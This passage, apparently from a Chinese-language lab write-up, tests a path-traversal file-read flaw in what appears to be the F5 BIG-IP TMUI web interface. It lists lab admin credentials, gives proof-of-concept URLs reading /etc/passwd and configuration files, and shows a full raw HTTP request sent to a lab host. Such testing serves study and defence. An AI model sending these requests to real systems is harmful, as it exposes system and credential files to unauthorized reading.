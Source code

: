 至此，我们已经拥有一个账号为admin/  
hkn!2gQWsgk的漏洞靶机，和一个账号为  
admin/  
hkn!2gQWsgk1的安全主机，  
下面我们进行简易测试~  
##### 漏洞利用  
###### 文件读取  
  
POC:  
```
系统文件：/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```  
  
执行结果：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHlsiaMyIa3En59UmoNUXemSg8vFcXELxwah7BD9ic52RVEn2Gczj5VWVQ/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F

```  
```
配置文件：/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/profile_base.conf
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHmmrINl80JvW4MiaJVdeSHXme3rza8yiclvSbMJibfgg2dtDSkNxUwWLLw/640?wx_fmt=png "")  
  
其余的配置文件如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHL6mTY6AUgdGq8THBqibhxQS0UcL8hlgHqib1ER4tOgOdPDsuMpQxMYJQ/640?wx_fmt=png "")  
  
文件的权限如下所示，可以看到有些文件并没有读权限：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHuU07gS9hfyHyeGgziaFVicvEDqAUOTuxmcicau9wFIqpdF6a5N1SQ5tGg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHX66smibyrGHl9ffan8OEcbfSxiaORSF6pLiaR8H4IulxXZIFKAia3UXwUw/640?wx_fmt=png "")  
  
  
在这里本来还打算读取config/bigip.conf的，结果发现没有读取  
权限  
```
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```  
  